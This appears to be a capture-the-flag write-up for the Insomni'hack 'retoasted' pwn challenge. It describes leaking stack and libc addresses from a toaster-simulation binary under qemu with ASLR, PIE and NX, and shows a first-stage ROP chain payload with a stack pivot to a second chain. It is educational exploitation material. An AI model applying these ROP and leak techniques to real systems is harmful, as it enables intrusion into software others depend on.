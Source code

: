 ## Infos

**Author**: grimmlin  
**Category**: Pwn  
**Difficulty**: Hard  

## Description:

Oh noes, toasted again!
This is the _exact_ same challenge as this year's quals, but qemu got pimped a bit. 

    running on retoasted.insomni.hack:7200

You can grab the challenge files and enjoy some new qemu features such as NX, ASLR, PIE and W^X

## Solution:

This challenge was really annoying. Toasted was already quite painful, but now there is ASLR, PIE, NX and no way to mprotect() a segment RWX.
Thankfully it is the exact same code that was running for toasted, meaning exact same vuln, and there are exploits readily available, like the one from [Samuel Groß](https://github.com/kitctf/writeups/tree/master/insomnihack-teaser-2016/toasted).

Now on the new challenges for this exploit :

  * We need leaks to get the stack and libc addresses.
  * As we create the ropchain from rand() and there is mmap randomization, we cannot realistically predict if we'll be successful or not
  * We will likely need to write values of the ropchain by doing some additions of rand()
  * We are "burning" one slice already to shift ou stack and leak so we can't burn the whole saved $pc
  * Since we can't mprotect, the smallest ropchain should be a read/stack_pivot to a bigger open/read/write ropchain

On to the exploit. The code is awful, you've been warned. Some sections of it are documented below.

By heating the slice @ -64, we can have the "debug" feature that will show the values of each slices. If we then overheat the t_bread pointer lower byte we can shift the slice tables and leak adresses.

    Toasting -60!
    Bread status:
    [245][  0][  0][  0][  9][174][206][117][ 14][  0][  0][  0][ 28][ 60][167][242]
    [252][219][217][117][149][121][183][125][232][124][183][125][125][  0][  0][  0]
    [216][  0][  0][  0][232][124][183][125][216][  0][  0][  0][  0][ 60][167][242]
    [  0][224][217][117][ 52][  0][  0][  0][ 64][ 60][167][242][255][121][183][125] <- libc base + 0xec000 at bytes 0-3
    [178][  0][  0][  0][  0][ 60][167][242][216][  0][  0][  0][196][255][255][255] <- stack addr at bytes 4-7
    [ 45][ 54][ 48][ 10][ 70][  1][  0][  0][ 51][212][204][119][  2][  0][  0][  0]
    [  4][  0][  0][  0][  0][  0][  0][  0][112][ 60][167][242][249][123][183][125] <- saved $pc at bytes 12-15
    [  4][ 63][167][242][  1][  0][  0][  0][227][  2][  0][  0][  0][  0][  0][  0]
    [  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0]
    [  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0]
    [  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0]
    [  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0]
    [  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0]
    [  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0]
    [  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0]
    [  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0][  0]

The stack address will be used to store our second ropchain and pivot to it. We will only overwrite part of the saved $pc address with the address of ```<__libc_csu_init+50>:   ldmia.w sp!, {r3, r4, r5, r6, r7, r8, r9, pc}```, which is just an offset from the current address.

The first ropchain will be packed into :

               offset to __libc_csu_init+50
    payload =  [0x87,0x01,0x00,0x00, 0x00,0x00,0x00,0x00, 0x00,0x00,0x00,0x00, 0x00,0x00,0x00,0x00]
                                     poped into r7 == read syscall
    payload += [0x00,0x00,0x00,0x00, 0x3,0x00,0x00,0x00, 0xff,0xff,0xff,0xff, 0xff,0xff,0xff,0xff] 
               pop reg for NR_read              stdin               stack_addr             len
    payload += packbytes(pop_0125pc) + [ 0x00,0x00,0x00,0x00]  + packbytes(stack_leak) + [ 252,0x00,0x00,0x00]
                                          syscall addr         popped into r7          pivot to rop2
    payload += [0xff,0xff,0xff,0xff ] + packbytes(syscall) + packbytes(stack_leak) + packbytes(pivot_addr)

The second stage ropchain is more straightforward and somewhat documented in the sploit.

The whole exploitation takes a while but will eventually spit out the flag, plus a bunch of garbage (0x100 length):

    Sending final ropchain
    ready?
    INS{that_was_some_PAIN_in_the_a$$}

Which pretty much sums up this challenge nonsense.

